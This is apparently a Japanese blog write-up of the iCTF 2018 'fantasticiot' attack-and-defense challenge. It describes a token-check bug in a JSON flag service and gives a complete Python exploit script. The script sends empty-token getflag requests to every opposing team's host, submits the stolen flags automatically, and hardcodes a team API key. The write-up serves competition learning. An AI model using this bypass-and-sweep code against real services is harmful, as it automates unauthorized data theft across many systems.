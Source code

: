 ```yaml
---
layout: post
redirect_from:
  - /blog/2018/03/17/ictf-2018-fantasticiot/
date: "2018-03-17T16:45:46+09:00"
tags: [ "ctf", "writeup", "ictf", "attack-and-defense" ]
---
```


# iCTF 2018: Fantasticiot

-   <https://ictf2018.net/>
-   <https://scoreboard.ictf2018.net/#/scores>

A&Dだと気付いたので参加した回。
順位が上のチームからしか攻撃点が得られないわりに点差が開かないため「最終tickまで順位調整しつつ潜伏しておいて最後にまとめてflag提出」が有効に見えた。
1位のチームはscoreboard hackを疑いたくなる点数取ってた。

## solution

動いてるbinaryをrevすると入力がjsonであることが分かる。特に以下の4つを受け入れる。
op `getflag` に存在する `token` field はおそらく一致判定が必要なものであるが、これが何であれ結果が返ってきてしまうバグがある。他は見なくてよかった。

``` json
{
    "service": "flag",
    "op": "getflag",
    "id": "${ID}",
    "token": "${TOKEN}"
}
```

``` json
{
    "service": "flag",
    "op": "setflag",
    "id": "${ID}",
    "token": "${TOKEN}",
    "flag": "${FLAG}"
}
```

``` json
{
    "service": "fridge",
    "op": "addfridge",
    ...
}
```

``` json
{
    "service": "fridge",
    "op": "getfridge",
    ...
}
```

## implementation

与えられた `hack_the_planet.py` を修正。


並列化しないとtimeout待ちで遅い。

``` python
#!/usr/bin/env python2

# This code was written 10 hours before the competition, yikes
# Any bugs are your problem

import socks # pip install PySocks
import socket
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS5, '127.0.0.1', 4444)
socket.socket = socks.socksocket

from pwn import * # pip install pwntools
from swpag_client import Team # pip install swpag_client
import time
import concurrent.futures
import sys

team = Team(None, "SazPO4ahE9QQqQ21ryBe8UEL017vis7t")

def team_ip(team_host):
    # 172.31.129.1 (team1) ... 172.31.129.254 (team254) ... 172.31.130.1 (team255) ...
    team_number = int(team_host[4:])
    minor = ((team_number - 1) % 254) + 1
    major = (team_number / 255) + 129
    return '172.31.{major}.{minor}'.format(major=major, minor=minor)

import json
def pwn_fantasticiot(conn, flag_id):
    payload = {
        'service': 'flag',
        'op': 'getflag',
        'id': flag_id,
        'token': '',
    }
    conn.sendline(json.dumps(payload))
    result = json.loads(conn.recvline())
    print result
    return result['flag']

def attack_fantasticiot(ip, port, flag_id):
    try:
        with remote(ip, port, timeout=1) as conn:
            if service['service_name'] == u'fantasticiot':
                flag = pwn_fantasticiot(conn, flag_id)
            else:
                assert False
        result = team.submit_flag([ flag ])
        service_flag_ids[service['service_name']].add(flag_id)
        print("HACKED", flag, result)
    except Exception as e:
        print("Error connecting to", target['team_name'], target['hostname'], ip, port)
        print(e)

services = team.get_service_list()
service_flag_ids = dict()
while True:
    for service in services:
        if service['service_name'] != u'fantasticiot':
            continue
        print("Going to attack", service['service_name'])
        if service['service_name'] not in service_flag_ids:
            service_flag_ids[service['service_name']] = set()
        targets = team.get_targets(service['service_id'])
        with concurrent.futures.ThreadPoolExecutor() as executor:
            for target in targets:
                flag_id = target['flag_id']
                ip = team_ip(target['hostname'])
                port = target['port']
                if flag_id not in service_flag_ids[service['service_name']]:
                    service_flag_ids[service['service_name']].add(flag_id)
                    executor.submit(attack_fantasticiot, ip, port, flag_id)

    time.sleep(10) # DOS is against the rules
```
